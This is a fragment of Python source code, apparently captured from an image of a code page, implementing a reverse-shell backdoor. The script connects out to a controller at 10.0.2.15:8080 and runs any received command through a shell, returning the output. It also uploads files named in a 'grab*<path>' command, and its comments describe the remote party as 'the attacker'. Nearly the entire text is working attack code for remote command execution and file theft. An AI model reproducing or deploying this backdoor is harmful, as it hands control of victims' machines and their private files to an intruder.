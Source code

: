 ```
            s.send(packet) 
            packet = f.read(1024)
        s.send('DONE')
        f.close()

    else: # the file doesn't exist
        s.send('Unable to find out the file')

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('10.0.2.15', 8080))

    while True: 
        command = s.recv(1024)

        if 'terminate' in command:
            s.close()
            break 

# if we received grab keyword from the attacker, then this is an indicator for
# file transfer operation, hence we will split the received commands into two
# parts, the second part which we intrested in contains the file path, so we will
# store it into a variable called path and pass it to transfer function

# Remember the Formula is grab*<File Path>
# Example: grab*C:\Users\Hussam\Desktop\photo.jpeg

        elif 'grab' in command: 
            grab,path = command.split('*')

            try: # when it comes to low level file transfer, a lot of things can go wrong, therefore
                                          # we use exception handling (try and except) to protect our script from being crashed
                                          # in case something went wrong, we will send the error that happened and pass the exception
                transfer(s,path)
            except Exception,e:
                s.send ( str(e) ) # send the exception error
                pass

        else:
            CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            s.send( CMD.stdout.read() ) 
            s.send( CMD.stderr.read() ) 

def main ():
    connect()
main()
```
